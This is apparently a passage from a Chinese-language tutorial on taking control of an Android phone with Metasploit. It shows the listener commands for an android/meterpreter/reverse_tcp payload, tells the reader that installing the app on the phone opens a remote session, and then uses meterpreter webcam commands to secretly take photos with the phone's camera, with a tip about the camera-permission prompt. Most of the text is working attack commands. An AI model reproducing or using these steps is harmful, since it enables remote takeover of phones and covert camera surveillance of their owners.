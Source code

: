 关闭 MSF 后选择退出程序。
手动启动侦听

```
msfdb run
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD android/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.53
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > exploit
```

手机安装运行APP即可建立session如果你的app闪退，请重新生成。以及重启手机。废话不多说我们先拍个照。

```
meterpreter > webcam_list
meterpreter > webcam_snap -i 1
```

> 注意！！！拍照可能会有提醒，比如程序请求访问相机权限，允许即可，我可能之前点过允许但是卸载
> 后系统记住了我的选择，即使我重新安装 APP 也没有相关提示。
> 存放路径为程序目录下。